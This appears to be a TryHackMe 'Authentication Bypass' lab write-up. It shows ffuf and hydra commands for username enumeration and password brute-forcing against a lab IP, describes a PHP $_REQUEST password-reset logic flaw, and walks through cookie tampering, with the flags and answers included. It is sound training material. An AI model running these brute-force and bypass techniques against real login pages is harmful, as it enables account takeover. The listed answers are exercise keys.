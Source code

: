 ```yaml
---
description: https://tryhackme.com/room/authenticationbypass
---
```


# Authentication Bypass

## Task 2 Username Enumeration

![](<../../.gitbook/assets/Screenshot from 2022-03-04 09-45-57.png>)

```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt \
     -u http://10.10.19.145/customers/signup -X POST \
     -H "Content-Type: application/x-www-form-urlencoded"  \
     -d "username=FUZZ&email=x&password=x&cpassword=x" \
     -mr "username already exists"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 09-58-35.png>)

#### What is the username starting with si\*\*\* ?

{% hint style="success" %}
`simon`
{% endhint %}

#### What is the username starting with st\*\*\* ?

{% hint style="success" %}
`steve`
{% endhint %}

#### What is the username starting with ro\*\*\*\* ?

{% hint style="success" %}
`robert`
{% endhint %}

## Task 3 Brute Force

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-16-51.png>)

#### What is the valid username and password?

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
     -u http://10.10.19.145/customers/login -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=W1&password=W2" \
     -fr "Invalid Username/Password Combination"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-08-16.png>)

```bash
hydra -L valid_usernames.txt -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt \
      'http-post-form://10.10.19.145/customers/login:username=^USER^&password=^PASS^:Invalid Username/Password Combination' \
      -I -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-14-06.png>)

{% hint style="success" %}
`steve/thunder`
{% endhint %}

## Task 4 Logic Flaw

![robert@acmeitsupport.thm](<../../.gitbook/assets/Screenshot from 2022-03-04 10-22-04.png>)

![robert](<../../.gitbook/assets/Screenshot from 2022-03-04 10-42-04.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-42-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-26-09.png>)

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string.

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-30-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-33-16.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-37-49.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-38-24.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-39-14.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-39-59.png>)

#### What is the flag from Robert's support ticket?

{% hint style="success" %}
`THM{AUTH_BYPASS_COMPLETE}`
{% endhint %}

## Task 5 Cookie Tampering

#### What is the flag from changing the plain text cookie values?

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-50-04.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-50-31.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-51-02.png>)

{% hint style="success" %}
`THM{COOKIE_TAMPERING}`
{% endhint %}

#### What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-55-04.png>)

{% hint style="success" %}
`463729`
{% endhint %}

#### What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

```bash
echo -n 'VEhNe0JBU0U2NF9FTkNPRElOR30=' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 10-58-31.png>)

{% hint style="success" %}
`THM{BASE64_ENCODING}`
{% endhint %}

#### Encode the following value using base64 {"id":1,"admin":true}

```bash
echo -n '{"id":1,"admin":true}' | base64 
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 11-00-15.png>)

{% hint style="success" %}
`eyJpZCI6MSwiYWRtaW4iOnRydWV9`
{% endhint %}

